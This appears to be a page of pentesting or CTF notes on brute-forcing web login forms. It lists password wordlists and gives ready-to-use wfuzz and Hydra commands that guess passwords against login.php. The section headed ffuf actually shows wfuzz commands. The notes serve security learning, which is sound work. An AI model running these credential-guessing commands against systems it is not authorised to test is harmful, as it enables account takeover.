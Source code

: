 # Bruteforce forms

<div class="row row-cols-md-2"><div>

There are two kinds of forms: **GET forms**, in which the parameters of the form are stored within the URL, and anyone opening the URL, will see the form filled with the same input. For instance, a search engine such as Google has a parameter `q` (query) in which the search I made `(hello world)` was stored in.

```
https://www.google.com/search?q=hello+world
https://www.google.com/search?q=hello%20world
```

Search are URL-encoded as a URL is a long suite of characters with no spaces, for instance, space would be either `%20`, or `+`.
</div><div>

Then, we have **POST forms**. They are mostly used for logins/... Once the user submit data, then its encoded, and sent to the server. Even if we have the same URL, the page will be empty for us.

```
https://example.com/login.php
```

The common point between the two are that the data transferred is looking like this: `username=toto&password=toto`, and in both, it's URL-encoded.
</div></div>

> **Note**: BurpSuite can be used too, see the Intruder tab.<br>

<hr class="sl">

## Wordlists

<div class="row row-cols-md-2"><div>

* package wordlist

```
/usr/share/wordlists/rockyou.txt
/usr/share/wordlists/fasttrack.txt
/usr/share/wordlists/dirb/others/best1050.txt
/usr/share/wordlists/dirb/others/best110.txt
/usr/share/wordlists/dirb/others/best15.txt
```

</div><div>

* package seclists 📌

```
$ ls /usr/share/seclists/Passwords/
2020-200_most_used_passwords.txt
darkc0de.txt
darkweb2017-top10000.txt
$ ls /usr/share/seclists/Passwords/Common-Credentials
10k-most-common.txt
10-million-password-list-top-1000000.txt
$ ls /usr/share/seclists/Usernames/
xato-net-10-million-usernames.txt
```
</div></div>

<hr class="sr">

## Bruteforce using ffuf

[See fuzzing/ffuf for more information](../fuzz/index.md#ffuf---fuzz-faster-u-fool)

<div class="row row-cols-md-2"><div>

Try to bruteforce a GET form.

```bash
$ wfuzz -w wordlist -u URL/account?id=FUZZ
```
</div><div>

Try to bruteforce a POST form.

```bash
$ wfuzz -w wordlist -X POST -d "username=admin&pass=FUZZ" URL/login.php
```
</div></div>

<hr class="sl">

## Bruteforce using wfuzz

[See fuzzing/wfuzz for more information](../fuzz/index.md#wfuzz---web-application-fuzzer)

<div class="row row-cols-md-2"><div>

Try to bruteforce a GET form.

```bash
$ wfuzz -w wordlist URL/account?id=FUZZ
```
</div><div>

Try to bruteforce a POST form.

```bash
$ wfuzz -w wordlist -d "username=admin&pass=FUZZ" URL/login.php
```
</div></div>

<hr class="sr">

## Bruteforce authentication forms using Hydra

<div class="row row-cols-md-2"><div>

Hydra is mostly used to bruteforce services, but it can also be used with authentication forms.

```bash
$ hydra -l toto -P wordlist URL http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" -V
```

<p class="mt-3">The request that we will bruteforce is something like this</p>

```none
username=toto&password=xxx
```
</div><div>

This command will

* Attack the form located at `URL/login.php` <small>(the `/login.php`)</small>
* Set the field with the name "username" with "toto"
* Set the field with the name "password" with every entry in the wordlist, on by one
* Consider comme failures (`-F`) any web page that returns the word "incorrect"

You should check the [bruteforce services](../../../random/crack_password/services.md) page to learn more about Hydra.
</div></div>